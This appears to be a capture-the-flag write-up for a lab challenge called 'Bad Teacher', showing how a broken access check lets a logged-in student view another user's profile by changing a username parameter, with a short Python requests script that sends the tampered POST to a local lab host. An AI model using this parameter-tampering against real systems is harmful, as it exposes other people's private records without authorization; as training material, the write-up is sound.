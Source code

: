 # Bad Teacher

## Description
Role-based access control (RBAC) is a method of restricting network access based on the roles of individual users within an enterprise. For example, lecturers should only be allowed to view their own students' profiles. In this challenge, a sample of a vulnerable login page has been setup. And you are a very, very bad teacher.


Username: s12345 , Password: password


View Nicole Fong's profile! (p5678901)

## Solution
1. Log in with the given credentials
2. View profile shows that an API call is made to: `POST /challenges/bad-teacher` with the following parameters:
    - `username=p5678902`
3. Seems like the API call doesn't require any challenge-specific validation so we can just change the username to `p5678901` and get the flag

```py
import requests

# Disable SSL warnings (mimosa uses a self-signed certificate)
requests.packages.urllib3.disable_warnings()

# Constants
URL = "https://mimosadism.dmit.local/challenges/bad-teacher"
JSESSIONID = "[REDACTED]"
CSRF_TOKEN = "[REDACTED]"

headers = {
    "X-Csrf-Token": CSRF_TOKEN,
}

cookies = {
    "JSESSIONID": JSESSIONID,
}

data = {
    "username": "p5678901",
}

try:
    response = requests.post(URL, headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
except requests.RequestException as e:
    print(f"Request failed: {e}")
```
